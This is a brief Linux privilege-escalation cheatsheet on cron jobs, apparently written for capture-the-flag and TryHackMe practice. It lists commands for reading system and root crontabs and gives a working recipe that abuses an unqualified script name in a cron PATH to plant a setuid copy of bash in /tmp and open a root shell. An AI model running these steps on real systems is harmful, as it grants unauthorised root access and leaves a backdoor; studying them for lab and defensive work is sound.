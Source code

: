 ```yaml
---
title: Cheatsheet - Cronjob
categories: [Cheatsheet, Linux Privilege Escalation]
date: 2022-06-17
tags: [linux-priv-esc/cronjob, cheatsheet/linux]
---
```


# View cronjobs
```
crontab -l
ls /etc/*cron*
cat /etc/cron*
cat /etc/at*
ls -alh /var/spool/cron
cat /var/spool/cron/crontabs/root 
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```



# Cron PATH
- For example, inside _/etc/crontab_ you can find the PATH: 
	```
	PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin	
	```
- If inside this crontab the root user tries to execute some command or script without setting the path. For example: _* * * * root overwrite.sh_ Then, you can get a root shell by using:
	```
	echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
	#Wait cron job to be executed
	/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
	```

# Writable Script/Executable
- Overwrite it to spawn root shell


# Some examples
- Cronjob executing binary where its PATH or itself is writable
	- TryHackMe Overpass - Privilege Escalation using Linpeas
- Cronjob + TAR wildcard
	- TryHackMe SkyNet - Privilege Escalatio via Cronjob + [TAR wildcard](http://yufongg.github.io/posts/TAR-+-Wildcard/)
